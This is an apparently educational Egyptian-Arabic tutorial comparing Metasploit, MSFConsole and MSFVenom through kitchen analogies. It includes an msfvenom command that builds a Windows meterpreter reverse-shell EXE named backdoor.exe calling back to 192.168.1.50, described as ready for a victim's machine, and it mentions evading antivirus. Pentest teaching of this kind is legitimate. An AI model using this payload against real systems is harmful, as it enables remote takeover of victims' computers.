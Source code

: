 # **الفرق بين Metasploit, MSFConsole, و MSFVenom (بأبسط طريقة)**

## كل واحد من التلاتة ليه دور مختلف في اختبار الاختراق:

  1️⃣ **Metasploit** → هو **الإطار الكامل * اللي بيجمع كل الأدوات اللي بتساعدك في استغلال الثغرات.  
 2️⃣ MSFConsole →  (زي الـ Terminal بتاعه)Metasploit هو الواجهة الأساسية اللي بتستخدمها للتفاعل مع 
 
 3️⃣ **MSFVenom** →مخصصة لاختراق الأنظمة Payloads  هي **الأداة اللي بتستخدمها عشان تصنع 
 
---

## **💡 الخلاصة بالمصري:**

- **Metasploit** هو **المطبخ** اللي فيه كل أدوات الاختراق.
- **MSFConsole** هو **الشيف** اللي بتتكلم معاه عشان تستخدم الأدوات دي.
- **MSFVenom** بنفسك Payloads هو **الخلاط** اللي بتستخدمه عشان تحضر 

---

# **تفصيل سريع لكل واحد فيهم**

## **1️⃣ Metasploit (إطار العمل الأساسي) 🔥**

- ده الإطار اللي بيضم كل أدوات الاختراق الجاهزة.
- بيحتوي على آلاف الـ **Exploits، Payloads، و Scanners**.
- بيتم تشغيله عن طريق MSFConsole.

**📌 مثال:**  
بدل ما تدور على ثغرات وتكتب استغلالات بنفسك، Metasploit بيقدمها لك جاهزة للاستخدام.

---

## **2️⃣ MSFConsole (واجهة التشغيل) 💻**

- دي الواجهة الرئيسية اللي بتستخدمها عشان تتحكم في Metasploit.
- تقدر تبحث عن ثغرات، تختار Exploit، وتنفذ الهجمات.
- بتشتغل من خلال سطر الأوامر.

**📌 مثال:**  
تشغيل MSFConsole في Kali Linux:

```bash
msfconsole
```

البحث عن ثغرات FTP:

```bash
search ftp
```

---

## **3️⃣ MSFVenom (صانع الـ Payloads) 🎯**

- بيستخدم لإنشاء **ملفات خبيثة (Malware) بصيغة exe, apk, dll, وغيرها**.
- بيجمع بين أدوات `msfpayload` و `msfencode`.
- بيساعدك على صناعة Payload متخفي عشان تتخطى برامج الحماية.

**📌 مثال:**  
لو عايز تعمل **ملف اختراق EXE** يفتح Reverse Shell، تكتب:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe > backdoor.exe
```

ده هيصنع لك ملف EXE جاهز للتشغيل على جهاز الضحية.

---

# **🎯 الخلاصة بالمصري مرة تانية:**

✔ **Metasploit** = صندوق الأدوات الكبير اللي فيه كل حاجة.  
✔ **MSFConsole** = المكان اللي بتكتب فيه الأوامر عشان تستخدم الأدوات دي.  
✔ **MSFVenom** = الأداة اللي بتستخدمها عشان تعمل Payload مخصص لاختراق الضحايا.

---

💡 **لو عايز تجربة عملية لأي واحد فيهم، قولي ونبدأ مع بعض!** 🚀